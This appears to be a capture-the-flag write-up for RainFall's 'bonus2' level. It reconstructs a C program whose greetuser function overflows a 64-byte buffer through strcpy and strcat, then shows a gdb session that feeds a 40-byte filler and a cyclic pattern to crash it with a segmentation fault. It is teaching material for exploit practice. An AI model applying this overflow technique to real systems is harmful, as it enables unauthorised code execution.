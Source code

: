 ```c
void greetuser(char *mainBuffer) {

    char buffer[64];

    if (language == 1) 
        strcpy(buffer, "Hyvää päivää ");
    
    if (language == 2) 
        strcpy(buffer, "Goedemiddag! ");
    
    if (language == 0) 
        strcpy(buffer, "Hello ");
    
    strcat(buffer, mainBuffer)
    puts(buffer)

}
int main(int argc, char **argv) {
    if (argc != 3) { 0x08048538 <+15>
        return (1)
    }

    char *buffer[72] // = esp+0x50 // 40+32
    char *envLang // = esp+0x9c

    memset(buffer, 0, 76) // 0x08048548 <+31>
    strncpy(buffer, argv[1], 40) //  0x0804855c <+51>
    strncpy(&buffer[40], argv[2], 32) //  0x0804857c <+83>

    envLang = getenv("LANG") 

    if (envLang != 0) { // 0x0804859f <+118>
        if (memcmp(envLang, "fi", 2) == 0) { // 0x080485bc <+147>
            language = 1
        }

           if (memcmp(envLang, "ni", 2) == 0) { // 0x080485eb <+194>
            language = 2
        }
    }

    greetuser(buffer) // 0x08048618 <+239>

    return (0)
}

```
#### Process of the Exploit
* LANG not set
```shell
bonus2@RainFall:~$ unset LANG
bonus2@RainFall:~$ gdb ./bonus2

(gdb) run $(python -c 'print "B" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "B" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hello BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
(gdb)
```
